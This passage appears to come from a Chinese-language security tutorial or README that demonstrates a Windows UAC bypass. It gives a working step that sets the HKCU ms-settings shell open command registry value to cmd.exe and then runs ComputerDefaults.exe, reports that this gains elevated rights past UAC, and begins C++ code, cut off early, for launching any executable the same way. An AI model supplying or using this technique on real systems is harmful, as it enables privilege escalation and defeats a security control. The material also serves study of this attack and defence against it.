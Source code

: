 
测试：将HKCU:\Software\Classes\ms-settings\shell\open\command(default)的值设置为cmd.exe，然后运行c:\windows\system32\ComputerDefaults.exe

![](./imgs/12.jpg)

成功弹出exe，并且是过了uac的权限

![](./imgs/13.jpg)

## 0x03 C++代码实现运行任意exe过uac

```
#include <stdio.h>
#include <Windows.h>

int wmain(int argc, wchar_t* argv[]) {
    if (argc != 2) {
        wprintf(L"Usage: %s <filePath>\n", argv[0]);
        wprintf(L"       %s cmd.exe\n", argv[0]);
        exit(1);
    }

    LPWSTR filePath = argv[1];

    PROCESS_INFORMATION pi = { 0 };
```